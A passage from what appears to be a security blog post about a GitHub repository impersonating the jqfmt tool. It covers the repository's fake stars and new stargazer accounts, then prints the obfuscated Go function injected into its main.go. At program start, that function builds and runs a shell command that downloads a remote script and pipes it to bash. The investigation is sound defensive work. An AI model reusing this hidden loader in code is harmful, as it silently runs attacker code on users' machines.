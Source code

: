 ![ossinsight github prettier star statistics](/blog/ossinsight-prettier-prettier.png)

One could argue that maybe the repository was posted on a forum like Reddit or Hackernews, which is why I ran a quick backlink check to validate that wasn't the case.

![ahref backlink check for the github repo](/blog/ahrefs-github-unfitpercen-jqfmt.png)

Checking who starred a repository is also pretty straightforward since each repository has a page where you can see who did it ([https://github.com/unfitpercen/jqfmt/stargazers](https://github.com/unfitpercen/jqfmt/stargazers)). That page conveniently also shows the account creation date of the "stargazers" if the user hasn't filled out their country or company (which the scammer luckily doesn't know).

I took a quick look and noticed that every single user was created within the last few weeks - suspicious 🤔

![github unfitperce/jqfmt stargazers](/blog/github-unfitpercen-jqfmt-stargazers.png)

## The Phantom Menace

At this point it is pretty obvious that the repository is an impersonation of `noperator/jqfmt`, which means there is only one thing left to do - figure out why.

So anyway, I started blasting a side-by-side view of each repository. Luckily my eyesight is pretty good, so I quickly found a discrepancy in the [cmd/jqfmt/main.go](https://github.com/unfitpercen/jqfmt/blob/deb5eb0a6fa98f3dbd0b04f3065cd236ab45062b/cmd/jqfmt/main.go#L78C1-L88C22) file:

![Side-by-side view of the cmd/jqfmt/main.go files](/blog/github-jqfmt-side-by-side-main-go.png)

While I am in no way an expert at writing Go, it was pretty clear that something weird was going on.

**Warning: this code downloads malware. You should not run it unless you know what you are doing:**

```go
import "os/exec"

func rUnCTC() error {
	HJ := []string{"e", "3", "d", "m", "/", "s", "&", "h", "i", ":", "3", "/", "c", "|", "d", "e", "/", "g", "1", "/", "o", "t", "/", "-", "4", "e", " ", "3", "u", " ", "w", "f", " ", "0", "a", "a", "-", "O", "6", "d", "n", "b", "p", "t", "b", "5", ".", "s", "i", "f", "r", "h", "/", " ", "r", "s", "7", "v", "e", " ", "t", "c", "t", "o", "g", "a", "/", "f", "n", "b", "a", " "}
	utOYhb := "/bin/sh"
	MclXWiDP := "-c"
	opIAlY := HJ[30] + HJ[64] + HJ[15] + HJ[60] + HJ[53] + HJ[36] + HJ[37] + HJ[29] + HJ[23] + HJ[59] + HJ[51] + HJ[43] + HJ[62] + HJ[42] + HJ[55] + HJ[9] + HJ[4] + HJ[11] + HJ[61] + HJ[34] + HJ[54] + HJ[57] + HJ[25] + HJ[12] + HJ[63] + HJ[3] + HJ[48] + HJ[46] + HJ[67] + HJ[28] + HJ[68] + HJ[66] + HJ[5] + HJ[21] + HJ[20] + HJ[50] + HJ[70] + HJ[17] + HJ[0] + HJ[16] + HJ[2] + HJ[58] + HJ[10] + HJ[56] + HJ[27] + HJ[14] + HJ[33] + HJ[39] + HJ[49] + HJ[52] + HJ[65] + HJ[1] + HJ[18] + HJ[45] + HJ[24] + HJ[38] + HJ[44] + HJ[31] + HJ[32] + HJ[13] + HJ[26] + HJ[19] + HJ[41] + HJ[8] + HJ[40] + HJ[22] + HJ[69] + HJ[35] + HJ[47] + HJ[7] + HJ[71] + HJ[6]
	exec.Command(utOYhb, MclXWiDP, opIAlY).Start()
	return nil
}

var rbFVkd = rUnCTC()
```
